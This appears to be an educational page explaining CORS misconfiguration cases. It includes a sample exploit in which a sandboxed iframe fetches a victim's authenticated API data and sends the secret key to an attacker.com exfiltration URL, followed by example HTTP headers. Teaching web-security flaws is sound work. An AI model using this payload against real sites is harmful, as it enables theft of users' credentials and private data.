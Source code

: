 ```yaml
---
title: CORS Misconfiguration 
description: Introduction to CORS Misconfiguration vulnerabilites.
---
```


# CORS Misconfiguration

Most CORS attacks rely on the presence of the response header: `Access-Control-Allow-Credentials: true`.

Without that header, the victim user's browser will refuse to send their cookies, meaning the attacker will only gain access to unauthenticated content, which they could just as easily access by browsing directly to the target website.

> References [portswigger.net](https://portswigger.net/web-security/cors).

Case :

1. `Access-Control-Allow-Origin: *` : Allow everyone to fetch this ressource, it can be dangerous if the ressource is not intended to be public.
2. `Access-Control-Allow-Origin` always reflect the value of the `Origin` request header : Same as `1)`, there are no protections.
3. `Access-Control-Allow-Origin` is set to a specific domain or reflect the value of the `Origin` request header only on subdomains : Try to find XSS on this domains.
4. `Access-Control-Allow-Origin` is `null` if the `Origin` is `null` :

You cannot set the value of the `Origin` request header using `fetch` or `XHR` because this header is not "safe".
However, this misconfiguration can still be exploited. Sandboxed elements (ex: `iframe`) sets the `Origin` header to `null` by default.

Example of exploit :

```html
<iframe sandbox="allow-scripts" src="data:text/html,
<script>
fetch('https://api.cors-null-vulnerable.com/sensitiveContent', {
    credentials: 'include'
})
.then(response => response.json())
.then(j => document.location=`https://attacker.com/exfiltration?key=${j['secret_key']}`);
</script>
"></iframe> 
```

HTTP Request headers :

```
GET /sensitiveContent HTTP/1.1
Host: api.cors-null-vulnerable.com
Cookie: session=agurne3nriezwaejpanrghq
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:93.0) Gecko/20100101 Firefox/93.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Origin: null
[...]
```

HTTP response :

```
HTTP/1.1 200 OK
Access-Control-Allow-Origin: null
Access-Control-Allow-Credentials: true
Content-Type: application/json; charset=utf-8
Connection: close
Content-Length: 149

{
  "secret_key": "12345",
}
```